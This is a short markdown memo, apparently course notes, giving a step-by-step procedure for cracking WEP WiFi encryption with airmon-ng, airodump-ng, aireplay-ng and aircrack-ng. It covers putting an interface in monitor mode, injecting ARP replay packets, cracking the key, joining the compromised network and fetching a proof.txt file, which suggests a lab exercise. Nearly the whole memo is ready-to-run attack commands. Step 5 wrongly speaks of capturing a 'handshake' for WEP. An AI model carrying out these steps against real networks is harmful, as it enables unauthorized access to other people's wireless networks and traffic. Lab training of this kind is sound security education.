 # WiFi_Hacking_Memo
Quick notes taken from the course around WiFi hacking
## WEP
1.	Place the wireless interface in monitor mode using the Airmon-ng tool
```
sudo airmon-ng start wlan0
```
2.	Discover nearby WiFi networks using Airodump-ng tool
```
sudo airodump-ng wlan0mon --wps
```
3.	Perform a targeted scan with the AP BSSID and channel discovered from step 2, and redirect the capture to a file named ‘WEP’
```
sudo airodump-ng -c 11 -b XX:XX:XX:XX:XX:XX -w WEP wlan0mon
```
4.	When the above command in step 3 shows at least 1 connected station to the AP, open a new terminal tab and sent ARP replay packets to the said station using Aireplay-ng, by specifying the targeted station ID
```
sudo aireplay-ng -3 -b XX:XX:XX:XX:XX:XX -h XX:XX:XX:XX:XX:XX wlan0mon
```
5.	Back on the previous tab, where Airodump-ng is still running and capturing traffic, the tool should have captured the handshake successfully. Stop Airodump-ng by pressing the CTRL + C keys and stop the monitor mode for the interface
```
sudo airmon-ng stop wlan0
```
6.	Use Aircrack-ng to crack the key from the output file created by Airodump-ng
```
sudo aircrack-ng WEP01.cap
```
7.	Once the key is cracked by Aircrack-ng, use iwconfig to connect the compromised wireless network
```
sudo iwconfig wlan0 essid <SSID_name> key <KEY>
```
8.	Refresh the DHCP client configuration and obtain an IP from the AP
```
sudo dhclient wlan0
```
9.	Get the content of the proof.txt file
```
curl http://192.168.1.1/proof.txt
```
